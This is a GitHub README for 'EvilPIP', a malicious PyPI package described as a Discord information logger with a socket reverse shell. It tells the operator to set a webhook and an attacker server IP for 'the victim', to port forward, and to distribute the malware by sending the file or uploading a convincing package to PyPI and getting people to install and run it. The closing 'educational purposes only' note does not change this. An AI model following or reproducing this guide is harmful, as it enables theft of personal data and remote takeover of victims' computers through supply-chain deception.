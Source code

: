 # EvilPIP 👿
**EvilPIP is a Malicious PyPi Module/Malware with Discord Information Logger and Socket Reverse Shell**

**What is Does:**
- Takes advantage of the fact that python has administrative privileges, therefore so do PyPi packages
- When executed, will gather system and discord information from the machine.
- If the reverse shell option is enabled, the program will make the machine connect to your reverse shell

# Usage 💻
Edit the ***VARIABLES*** class with your information
```py
In '__main__.py' only {
    set 'webhook' to your Discord webhook
    set 'REVSHELL' to False if you don't want the reverse shell
    set 'REVSHELL' to True if you want the reverse shell
}
In '__main__.py' and 'server/server.py' {
    Set 'serverip' to your host/VPS IP for the victim to connect to
    Set 'port' to the port you want the victim to connect to (optional)
    Set 'buffer' to the buffer size (in bytes) that you want to send (optional)
}
```
If **REVSHELL** is enabled and you want the victim to connect to the reverse shell -

    Port-Forward on the port you had chosen (look up a tutorial for your router/VPS)

**When these steps are completed to your liking, you can move onto the distribution process**

# Distribution methods 💾

**If you set REVSHELL to True: Open 'server/server/server.py' on your own machine/VPS to wait for a reverse shell connection**

**Method 1: Sending file directly (only works if they have the dependencies)**
- Rename and encrypt (optional) the '__ main __.py' file
- Send the file to someone directly and wait for a connection
- When opened, evilpip should be executed

**Method 2: PyPi Package**
- Upload the package to PyPi and make it look convincing (requires experience)
- Get someone to run these commands (evilpip = your pypi package name):

      pip install evilpip
      python -m evilpip

# Showcase 📷

**Information sent to Discord webhook and reverse shell connected:**

![image](https://user-images.githubusercontent.com/75194878/166561205-b6f84821-f308-4418-a9e3-3f558d8b7026.png)
![image](https://user-images.githubusercontent.com/75194878/166560928-2075231d-32a0-47ac-a2d8-71d0f4853118.png)
![image](https://user-images.githubusercontent.com/75194878/166560636-025771c9-5325-4e10-b985-b3a10bcd4727.png)

# Final Notes 📝
This project was made for educational purposes only, to demonstrate -
- That you shouldn't trust all PyPi packages as there can be malicious code in them
- How easy it is to execute said malicious code, and that you don't need to download anything online
- How the logger and reverse shell were made

To support this repository, star it, and to contribute to it, please fork it with any useful additions.
